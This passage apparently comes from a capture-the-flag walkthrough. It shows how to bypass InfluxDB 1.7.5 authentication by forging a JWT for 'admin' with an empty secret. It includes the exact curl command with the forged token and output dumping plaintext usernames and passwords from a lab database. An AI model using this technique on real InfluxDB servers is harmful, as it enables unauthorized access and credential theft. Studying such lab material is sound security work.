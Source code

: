 ```bash
```
## Exploit the container
Now if you are *patrick* on the machine you can curl the influxdb docker locally. This version **1.7.5** suffers from a vulnerability [https://snyk.io/vuln/SNYK-GOLANG-GITHUBCOMINFLUXDATAINFLUXDBSERVICESHTTPD-1041719](https://snyk.io/vuln/SNYK-GOLANG-GITHUBCOMINFLUXDATAINFLUXDBSERVICESHTTPD-1041719)
They do not check for the secret properly. So using a empty secret with the correct username `admin` will result in successful authentication.

All you need to do is forge a *JWT* Token:
[Documentation of InfluxDB for Format](https://docs.influxdata.com/influxdb/v1.7/administration/authentication_and_authorization/#authorization)

Timing is important. One can go to [https://www.unixtimestamp.com/index.php](https://www.unixtimestamp.com/index.php) and add 1 year to the current epoch time.

Then you use [jwt.io](https://jwt.io) like this:
![[jwt.png]]

Then you can bypass auth using curl:

```bash
> curl -G "http://localhost:8086/query?pretty=true" --data-urlencode "db=devzat" --data-urlencode "q=SELECT * from /"user/"" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjU1Njc5NjAwfQ.0ybNdcaURBIu6nwZsRHDLfkjOnwnMsMyLA7c6HABc-s"
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "name": "user",
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "values": [
                        [
                            "2021-06-18T13:05:13.011432108Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-18T13:05:13.038202129Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-18T13:05:13.681673783Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ]
        }
    ]
}
```